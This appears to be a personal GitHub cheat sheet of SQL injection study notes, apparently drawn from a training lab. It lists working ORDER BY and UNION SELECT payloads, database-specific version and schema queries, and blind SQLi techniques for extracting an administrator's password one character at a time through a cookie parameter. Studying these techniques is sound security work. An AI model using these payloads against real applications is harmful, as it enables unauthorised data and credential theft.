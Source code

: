 # SQL Injection

### How to check column in table query

Injecting a series of ORDER BY clauses and incrementing the specified column index until an error occurs.
```
' ORDER BY 1 -- 
' ORDER BY 2 --
' ORDER BY 3 --
```

### Finding columns with a useful data type

Having already determined the number of required columns, you can probe each column to test whether it can 
hold string data by submitting a series of UNION SELECT payloads that place a string value into each column in turn.
```
' UNION SELECT ‘a’,NULL,NULL,NULL --
' UNION SELECT NULL,’a’,NULL,NULL -- 
' UNION SELECT NULL,NULL,’a’,NULL --
' UNION SELECT NULL,NULL,NULL,’a’ --
```
 - When determining the sata type from an *Oricle* database you will need to use the from clause. 
    - Example: `' UNION SELECT ‘a’,NULL FROM DUAL--`

## Database version
### You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

- Oracle: 	`SELECT banner FROM v$version` or `SELECT version FROM v$instance`
  > Example: `' UNION SELECT banner,NULL FROM v$version--`
- Microsoft: 	`SELECT @@version`
- PostgreSQL: 	`SELECT version()` 
  > Example: `'+UNION+SELECT+version()+,NULL--`
- MySQL: 	`SELECT @@version`

## Database contents
### You can list the tables that exist in the database, and the columns that those tables contain.

- Oracle
  - `SELECT * FROM all_tables`
    > Example: `' UNION SELECT TABLE_NAME,NULL FROM all_tables--`
    >> *table_name* is a sql_identifier that displays the name(s) of the table(s)
  - `SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'`
    > Example: `' UNION SELECT COLUMN_NAME,NULL FROM all_tab_columns WHERE table_name = 'USERS_QQGUCL'--`
    >> *column_name* is a	sql_identifier that displays the name(s) of the column(s) under a specified table 
- Microsoft	
  - `SELECT * FROM information_schema.tables`
  - `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`
- PostgreSQL	
  - `SELECT * FROM information_schema.tables`
    > Example: `' UNION SELECT table_name,NULL FROM information_schema.tables--` 
    >> *table_name* is a sql_identifier that displays the name(s) of the table(s)
  - `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` 
    > Example: `' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name = 'users_jrcoia'--`
    >> *column_name* is a	sql_identifier that displays the name(s) of the column(s) under a specified table 
- MySQL	
  - `SELECT * FROM information_schema.tables`
  - `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`

# Blind SQL Injection

### Test to see if application is vulnerable to blind SQLi
Force a true statement buy injectiong `' and 1=1--` (true) and `' and 1=2--` (false) at the end of the tracking id to see how the application responds to a true statement and a false statement. We can use the difference in how the application responds to gather information about the system.
> Example `Cookie: TrackingId=Tz8WopT2zdfF3ayw' and 1=1--; session=3NYJZxhVb8RYO3dnt4ia4hYVL8zidlNQ` true message
> Example `Cookie: TrackingId=Tz8WopT2zdfF3ayw' and 1=2--; session=3NYJZxhVb8RYO3dnt4ia4hYVL8zidlNQ` false message

#### Example qureies on how to inject code for information in blind SQLi
- `' and (select 'x' from users LIMIT 1)='x'--` This quiere states that if there is a users_table return x. If there is a users_table then we will get a true response back, if there is no users_table then we will get a false response back.
- `' and (select username from users where username='administrator')='administrator'--` If the first quiere returns true and there is a users table then we can also send this queire to see if there is an administrators account in the users_table

#### Password enumeration with blind SQLi
1. Find out the length of the password: `' and (select username from users where username='administrator' and LENGTH (password)>1)='administrator'--` This quiere returns true if the password length is grater than 1. Increase the lenght number after every true message untill you get a false message indicating the passowrd length 
> Example: This set of quereies indicated that the password lenght is 16 characters long
```
`' and (select username from users where username='administrator' and LENGTH (password)>14)='administrator'--` true
`' and (select username from users where username='administrator' and LENGTH (password)>15)='administrator'--` true
`' and (select username from users where username='administrator' and LENGTH (password)>16)='administrator'--` flase
```

2. Once you know the length of the password now you can quiere for characters in the same way buy submitting tons of request testing each letter/number/symbol untill you get a true response
> Example: `' and (select substring(password,1,1) from users where username='administrator')='a'--` the subtring peramiter specifies where we want to test, what position in the string to test and how many characters we want to test. You can test one character at a time untill you recive a true message and then move to the nect character ect.

# Blind SQL Injection with conditional errors

